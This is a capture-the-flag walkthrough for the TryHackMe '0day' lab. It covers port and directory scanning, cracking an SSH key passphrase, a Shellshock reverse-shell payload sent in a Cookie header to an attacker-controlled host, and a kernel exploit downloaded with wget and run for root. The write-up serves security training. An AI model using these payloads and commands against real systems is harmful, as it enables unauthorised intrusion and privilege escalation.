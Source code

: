 # 0day

**Room Link:** [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>





This appeared to be a rabbit hole but I found a key and was able to bruteforce the password for it.

<figure><img src="../../.gitbook/assets/image (427).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (428).png" alt=""><figcaption></figcaption></figure>

I found a cgi file. i tried checking if it was vulnerable to shellshock which wasn't working but it was vulnerable.&#x20;

**Kali**

```
gobuster dir -u http://$VICTIM/cgi-bin/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,cgi
```

<figure><img src="../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Link:** [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

**Kali#1**

```
nc -lvnp 4242
```

**Kali #2**

```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/$KALI/4242 0>&1' http://$VICTIM/cgi-bin/test.cgi 
```

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Privilege Escalation

**Victim**

```
uname -a 
```

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c
gcc 37292.c -o exploit
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

The exploit didn't work as it's complaining that it can't create dynamic library

**Victim**

```
cd /tmp/
wget http://10.10.91.55:81/exploit
chmod +x exploit
./exploit
```

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

To fix this we just had to export the binpath from the machine

**Victim**

```
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
./exploit
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>



